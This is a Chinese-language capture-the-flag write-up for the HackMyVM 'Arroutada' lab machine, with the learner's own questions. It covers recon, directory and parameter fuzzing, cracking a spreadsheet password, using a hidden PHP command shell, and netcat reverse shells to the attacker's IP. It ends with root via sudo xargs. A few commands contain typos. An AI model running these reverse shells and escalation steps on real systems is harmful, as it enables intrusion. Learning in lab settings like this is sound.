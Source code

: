 ## 1、靶场搭建

PS：一楼使用的网络需要额外认证，不能采用桥接模式。

## 2、网络信息收集

```bash
sudo arp-scan -l -I eth0
#将扫描到的所有网络信息输出到net-info.txt中，并提取出所有活动设备的ip到ip-info.txt
sudo arp-scan -l > net-info.txt
awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $1}' net-info.txt > ip-info.txt
```

![image-20240620104841530](hmv.arroutada.assets/image-20240620104841530.png)

## 3、端口信息收集

```bash
#理论上不知道在哪个主机有开放端口的情况下应该将所有的主机都扫描，但是此处其实已知是靶机（192.168.6.166）有开放端口，因此只扫描靶机即可
#sudo nmap -sV -p- -Pn -iL ip-info.txt
sudo nmap -sV -p- -Pn -iL 192.168.6.166
###
#-s代表scan,V代表version，对主机版本信息扫描，还有S为SYN扫描，T为TCP连接扫描，U为UDP连接扫描。
#-p-为扫描1-65535所有端口，默认情况为只扫描到1000端口
#-Pn，即ping no，nmap在端口扫描的时候会先发icmp，为了避免防火墙等设备阻止icmp请求导致nmap认为主机不在线（而且arp-scan已知该主机在线）。
###


###
##为什么使用arp-scan发现主机而不用imcp发现？
#arp在2.5层，因此无视基于ip过滤的防火墙，但是icmp是在3.5层。
###
```

![image-20240620104439637](hmv.arroutada.assets/image-20240620104439637.png)

## 4、路径扫描

```bash
#开放了端口80，http，可以通过暴力破解找到有哪些文件，从而分析出哪些文件可以被访问，哪些不允许被访问，根据收集的信息决定进一步渗透的方法。
sudo apt instasll gobuster
gobuster dir -u http://192.168.6.166/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip,bak,jpg,txt,html

###
#403表示有文件但无访问权限，301代表重定向，200代表成功访问。
#因此接下来看看能从200和301状态码的网页中获取到什么有用的信息
###
```

![image-20240620155517960](hmv.arroutada.assets/image-20240620155517960.png)

```bash
###
#首先访问index.html，为一个握拳且无有效信息的页面(除非它是个包含秘密数据的特殊图像)
#其次访问imgs和scout，imgs下即为index.html中的握拳图片，没啥用。scout中为一个提示，表明有重要文件存在于/scout/******/docs/下。这就可以想到采用模糊测试工具暴力破解。
###
```

<img src="hmv.arroutada.assets/image-20240620115521366.png" alt="image-20240620115521366" style="zoom: 25%;" />

<img src="hmv.arroutada.assets/image-20240620115528095.png" alt="image-20240620115528095" style="zoom:33%;" />

![image-20240620115459626](hmv.arroutada.assets/image-20240620115459626.png)

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirb/big.txt -u 'http://192.168.6.166/scout/FUZZ/docs/'  --hl 3
###
#--hc==404，hc即hide code，忽略404相应。FUZZ用户模糊测试，类似通配符。
###

###
#疑问：为什么要设置--hl 3，不看响应体长度为3的响应？？？有什么意义在这里？
###
```

![image-20240620155129301](hmv.arroutada.assets/image-20240620155129301.png)

```bash
#破解到了重要文件所在的路径，访问/scout/j2/docs/，发现存在两个有效文件（其它z***文件是什么用处，模拟存在好多文件？）。打开pass.txt发现一个用户名+密码，打开shellfile.ods发现需要输入密码，因此将其down下来尝试破解（有一个核心问题，如果不是教程，我怎么知道这个.ods文件的加密模式是可以被破解的？这个问题与文尾疑问相对应）。
wget http://192.168.6.166/scout/j2/docs/shellfile.ods
libreoffice2john shellfile.odf > key_hash
john -w=/usr/share/wordlists/rockyou.txt key_hash

###
#疑问：我并没有查到相关官方文档说.ods中默认采用PBKDF2进行密钥派生得到密钥并利用AES对称加密，然后用SHA-1散列派生的密钥，是因为我没有查到相关文档吗？如果.ods采用未知的加密模式怎么办？还是说libreoffice2john工具能自动识别.ods文件的加密模式？
###
```

<img src="hmv.arroutada.assets/image-20240620142240114.png" alt="image-20240620142240114" style="zoom: 50%;" />

![image-20240620142256845](hmv.arroutada.assets/image-20240620142256845.png)

![image-20240620142319051](hmv.arroutada.assets/image-20240620142319051.png)



![image-20240620150501324](hmv.arroutada.assets/image-20240620150501324.png)

```bash
#破解得到.ods的密码为john11，输入后得到了一个新的文件路径，大概里thejabasshell.php是下一步的突破点。
#访问发现是个空白页面，然后爆破参数。
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.6.166/thejabasshell.php?FUZZ=whoami' -fw 1

###
#疑问1：这里作者为什么会想到爆破html参数名？这是原因还是经验？空白html就要想到爆破参数名？
#疑问2：我理解这里FUZZ=whoami是根据返回的状态码确定正确的参数名，但为什么要设定参数值为whoami，如果靶机上的server将whoami这种单词进行了黑名单过滤，岂不是也会返回错误的状态码？没法控制单一变量，那岂不是试到了正确的参数名也可能会被认为是错误的参数名吗。
###
```

<img src="hmv.arroutada.assets/image-20240620150742209.png" alt="image-20240620150742209" style="zoom:50%;" />![image-20240620151057367](hmv.arroutada.assets/image-20240620151057367.png)

<img src="hmv.arroutada.assets/image-20240620155051799.png" alt="image-20240620155051799" style="zoom:50%;" />

```bash
#爆破到了一个正确的参数名a，访问它得到了一个提示说突破点在参数b上（而且可以看出来a的参数值暂时并没有作为命令在靶机上执行）
#尝试给参数b一个参数值（b=ls)，发现还是提示突破点在参数b上。这里感觉就像是a是输入了一个用户名，需要b的参数值作为密码匹配成功才能看到某些信息。因此，继续爆破b的参数值。
ffuf -w /usr/share/wordlists/rockyou.txt -u 'http://192.168.6.166/thejabasshell.php?a=whoami&b=FUZZ' -fw 5
```



![image-20240620153112013](hmv.arroutada.assets/image-20240620153112013.png)

![image-20240620153513536](hmv.arroutada.assets/image-20240620153513536.png)

<img src="hmv.arroutada.assets/image-20240620154906918.png" alt="image-20240620154906918" style="zoom:50%;" />

```bash
#得到b的参数值为pass时返回了200状态码，尝试输入b=pass，返回了www-data。再试一下别的命令a=ls,发现也被执行了，基本证明a的值会在b的值为pass时作为命令执行
```

![image-20240620155701151](hmv.arroutada.assets/image-20240620155701151.png)

![image-20240620155734544](hmv.arroutada.assets/image-20240620155734544.png)

## 5、获取shell

```bash
#现有条件为命令可执行，且靶机仅开放了80端口，没有开放ssh的22端口，因此无法正向shell，只能反弹shell。先kali使用nc监听5555端口，然后给a的值设置为nc 192.168.6.149 5555 -e /bin/bash然后访问,拿到shell。
nc -lvp 5555
script /dev/null -c bash
```

![image-20240620162119592](hmv.arroutada.assets/image-20240620162119592.png)![image-20240620160820481]

![image-20240620162220315](hmv.arroutada.assets/image-20240620162220315.png)

![image-20240620163625456](hmv.arroutada.assets/image-20240620163625456.png)

```bash
#查看定时文件，发现没有
crontab -l
#查看suid命令和文件
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
#查看是否有其它未开放但监听的端口，有一个8000端口
ss -altp
###
#疑问1：查看定时文件、查找可利用suid命令和文件、查看监听但未开放端口，这是在任何场景下拿到普通权限后提权的思路吗，除此之外还有哪些思路？
#疑问2：为什么作者说没有可用suid命令和文件？这不是有吗？是无法被利用进行渗透吗？
###
```

![image-20240620163957853](hmv.arroutada.assets/image-20240620163957853.png)

![image-20240620164939453](hmv.arroutada.assets/image-20240620164939453.png)

![image-20240620164954455](hmv.arroutada.assets/image-20240620164954455.png)

![image-20240620164510824](hmv.arroutada.assets/image-20240620164510824.png)

```bash
#本地命令行访问这个端口-用wget down下来html页面（我看另一个作者还用curl去尝试down，收集一下用于down的命令），必须要进入tmp目录下wget
wget http://lcoalhost:8000
cat index.html
###
#疑问1：为什么在tmp下才能wget成功？
```

<img src="hmv.arroutada.assets/image-20240620165605371.png" alt="image-20240620165605371" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620170355606.png" alt="image-20240620170355606" style="zoom:50%;" />

![image-20240620170626021](hmv.arroutada.assets/image-20240620170626021.png)

```bash
#得到一个Brainfuck编码，解码结果为all HackMyVM hackers!!且提示了一个文件priv.php，这个文件应该就是接下来的突破点。继续把他wget down下来查看内容
wget http://127.0.0.1:8000/priv.php
cat priv.php
```

![image-20240620170824511](hmv.arroutada.assets/image-20240620170824511.png)

<img src="hmv.arroutada.assets/image-20240620171628302.png" alt="image-20240620171628302" style="zoom:50%;" />

```bash
#$json接收传入的原始post数据，然后解析json给$data，json会将command参数的值传递给system()函数，system()函数执行这个值（命令），因此得到可以任意命令执行的利用链。
#在kali上监听6666端口，用wget以post形式提交表单
wget --post-data='{"command":"nc 192.168.6.149 6666 -e /bin/bash"}' http://127.0.0.1:8000/priv.php

#获取到drito用户的权限
```

![image-20240620172602324](hmv.arroutada.assets/image-20240620172602324.png)

<img src="hmv.arroutada.assets/image-20240620172648234.png" alt="image-20240620172648234" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620172753030.png" alt="image-20240620172753030" style="zoom:50%;" />

## 6、获取root权限

```bash
#sudo -l发现xargs有root权限。
#https://gtfobins.github.io/gtfobins/xargs/#sudo中为利用xargs提权的方法（break out from restricted environments）
#仔细学习研究为什么能提权。

sudo xargs -a /dev/null sh
#获取root权限
```

<img src="hmv.arroutada.assets/image-20240620173031777.png" alt="image-20240620173031777" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620173714828.png" alt="image-20240620173714828" style="zoom:50%;" />

```bash
###
#请教：请问有没有一些常用的好用的字典？或者推荐某个网站上有？或者推荐某个git上有？
#终极疑问：/scout/j2/docs下的pass.txt文件中的内容user:password有什么用？全文没有发现它被使用到。
###
```

```bash
#PS：
#爆破文件目录和文件名
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/wordlists/dirb/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
#爆破密码
/usr/share/wordlists/rockyou.txt
```

